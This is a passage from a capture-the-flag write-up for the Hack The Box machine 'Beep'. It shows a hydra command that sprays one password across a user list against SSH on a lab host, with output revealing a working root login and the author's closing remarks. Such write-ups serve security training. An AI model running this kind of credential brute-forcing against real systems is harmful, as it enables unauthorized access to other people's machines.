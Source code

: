 ```                                                                                                      
┌──(mark㉿haxor)-[~/Desktop/B2B/HTB/Beep]
└─$ hydra -L users -p jEhdIekWmdjE ssh://10.10.10.7 -t64
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-20 04:15:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 35 tasks per 1 server, overall 35 tasks, 35 login tries (l:35/p:1), ~1 try per task
[DATA] attacking ssh://10.10.10.7:22/
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

Cool the password works for root 

Now we can login as root xD

And we're done 

<br> <br>
[Back To Home](../../index.md)
<br>

